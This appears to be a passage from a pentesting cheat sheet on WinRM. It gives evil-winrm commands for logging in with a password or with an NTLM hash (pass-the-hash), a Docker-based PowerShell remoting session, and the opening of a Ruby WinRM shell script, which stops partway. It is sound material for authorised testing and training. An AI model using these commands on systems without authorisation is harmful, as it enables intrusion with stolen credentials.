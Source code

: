 ### Using evil-winrm

```ruby
gem install evil-winrm
```

Read **documentation** on its github: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```ruby
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

To use evil-winrm to connect to an **IPv6 address** create an entry inside _**/etc/hosts**_ setting a **domain name** to the IPv6 address and connect to that domain.

### Pass the hash with evil-winrm

```ruby
evil-winrm -u <username> -H <Hash> -i <IP>
```

![](<../.gitbook/assets/image (173).png>)

### Using a PS-docker machine

```
docker run -it quickbreach/powershell-ntlm
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $creds
```

### Using a ruby script

Code extracted from here: [https://alamot.github.io/winrm_shell/](https://alamot.github.io/winrm_shell/)

```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt


conn = WinRM::Connection.new( 
  endpoint: 'https://IP:PORT/wsman',
  transport: :ssl,
  user: 'username',
  password: 'password',
  :no_ssl_peer_verification => true
)


class String
  def tokenize
    self.
      split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
      select {|s| not s.empty? }.
      map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
  end
end


```